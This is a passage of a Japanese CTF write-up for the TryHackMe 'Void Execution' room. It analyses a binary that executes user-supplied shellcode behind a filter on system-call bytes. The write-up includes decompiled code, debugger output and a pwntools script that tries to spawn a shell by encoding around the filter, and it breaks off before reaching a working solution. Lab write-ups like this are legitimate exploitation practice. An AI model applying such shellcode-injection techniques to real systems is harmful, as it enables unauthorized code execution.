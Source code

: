 # Void Execution CTF

https://tryhackme.com/room/hfb1voidexecution

```sh
$ ls
ld-linux-x86-64.so.2  libc.so.6  voidexec
```

```sh
$ pwn checksec ./voidexec
[*] '/home/kali/ctf/void/voidexec'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'.'
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

```c
undefined8 main(void)
{
  char cVar1;
  code *__s;

  setup();
  __s = (code *)mmap((void *)0xc0de0000,100,7,0x22,-1,0);
  memset(__s,0,100);
  puts("\nSend to void execution: ");
  read(0,__s,100);
  puts("\nvoided!\n");
  cVar1 = forbidden(__s);
  if (cVar1 != '\0') {
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  mprotect(__s,100,4);
  (*__s)();
  return 0;
}

undefined8 forbidden(long param_1)
{
  ulong local_18;

  local_18 = 0;
  while( true ) {
    if (0x62 < local_18) {
      return 0;
    }
    if (*(char *)(local_18 + param_1) == '\x0f') break;
    if ((*(char *)(local_18 + param_1) == -0x33) && (*(char *)(param_1 + local_18 + 1) == -0x80)) {
      puts("Forbidden!");
      return 1;
    }
    local_18 = local_18 + 1;
  }
  puts("Forbidden!");
  return 1;
}
```

- forbidden 関数で禁止されているバイトがある
- mprotect(\_\_s,100,4); は実行専用領域。（読み書き禁止）

下記の 3 種類はすべて禁止されているということ

1. \x0f\x05 syscall 命令 システムコール（例：execve など）
2. \x0f\x34 sysenter 命令 古い Linux カーネル向けシステムコール
3. \xcd\x80（= -0x33 と-0x80） int 0x80 命令 もっと古い Linux システムコール

禁止バイトを回避するために下記の方法を使うと、

```python
encoded_shellcode = encode(shellcode, avoid=b"\x0f\xcd")
```

このような XOR エンコードが生成され、読み書き禁止の制限に違反する。

```
0xc0de0014    stosb  byte ptr [rdi], al
```

禁止バイトを使わずにシェルを起動する方法を調べたが見つからなかった。

では、mprotectを再度呼び出して読み書き可能に戻すことは可能か？  
→ shellcraft.mprotectがあることを知る。

```python
#!/usr/bin/env python3

from pwn import *

context.update(os="linux", arch="amd64", log_level="error")

#r = remote("localhost", 5002)
p = process('./voidexec')

mprotect_code = shellcraft.mprotect(0xc0de0000, 100, 7)
shellcode = shellcraft.sh()

full_code = asm(mprotect_code + shellcode)

encoded_shellcode = encode(full_code, avoid=b"\x0f\xcd")
print(encoded_shellcode)

p.recvuntil(b"Send to void execution: \n")
p.sendline(encoded_shellcode)
p.interactive()
```

しかし、これも結局[内部的には](https://github.com/arthaud/python3-pwntools/blob/7519197918/pwnlib/shellcraft/templates/amd64/linux/mprotect.asm) syscall を呼び出しているので最後に `\x0f\x05` が含まれてしまうし、avoid=b"\x0f\xcd"を使ったら同じように読み書き禁止のためセグメンテーションエラーになる。

このcallにステップインした直後のレジスタを見ると、
```c
(*__s)();
```

RCX にmprotect+11のアドレスが入っていることが分かる。

```
 RCX  0x7ffff7d1e8bb (mprotect+11) ◂— cmp rax, -0xfff
```
